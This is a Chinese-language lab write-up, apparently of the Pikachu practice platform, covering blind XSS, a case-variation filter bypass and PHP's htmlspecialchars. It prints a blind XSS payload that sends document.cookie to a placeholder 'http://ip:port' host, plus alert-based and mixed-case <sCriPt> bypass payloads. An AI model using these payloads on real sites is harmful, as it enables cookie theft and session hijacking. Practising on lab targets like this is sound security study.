 ## XSS之盲打

直接两个输入框都输入下放payload，开冲

```html
<script>new Image().src="http://ip:port/cookie="+encodeURI(document.cookie);</script>
```

![pikachu24](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/pikachu24.png)

模拟登录管理员后台查看后，vps收到管理员cookie

![pikachu25](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/pikachu25.png)

## XSS的过滤

![pikachu27](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/pikachu27.png)

后面还是弹窗吧，累了，懒得切来切去了

```html
<script>alert(document.cookie)</script>
```

输入后没反应，查看页面发现只剩一个`>`，不知道具体过滤了啥，无脑先试大小写绕过

```html
<sCriPt>alert(document.cookie)</sCriPt>
```

![pikachu26](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/pikachu26.png)

成功绕过，收获cookie一枚

## XSS之htmlspecialchars

### htmlspecialchars函数

```php
htmlspecialchars(
    string $string,
    int $flags = ENT_COMPAT | ENT_HTML401,
    string $encoding = ini_get("default_charset"),
    bool $double_encode = true
): string
```

该函数把预定义的字符转换为 HTML 实体

| 预定义的字符 | 转换后                                                       |
| :----------- | :----------------------------------------------------------- |
| `&` (& 符号) | `&amp;`                                                      |
| `"` (双引号) | `&quot;`，除非设置了 **`ENT_NOQUOTES`**                      |
| `'` (单引号) | 设置了 **`ENT_QUOTES`** 后， `&#039;` (如果是 **`ENT_HTML401`**) ，或者 `&apos;` (如果是 **`ENT_XML1`**、 **`ENT_XHTML`** 或 **`ENT_HTML5`**) |
| `<` (小于)   | `&lt;`                                                       |
| `>` (大于)   | `&gt;`                                                       |
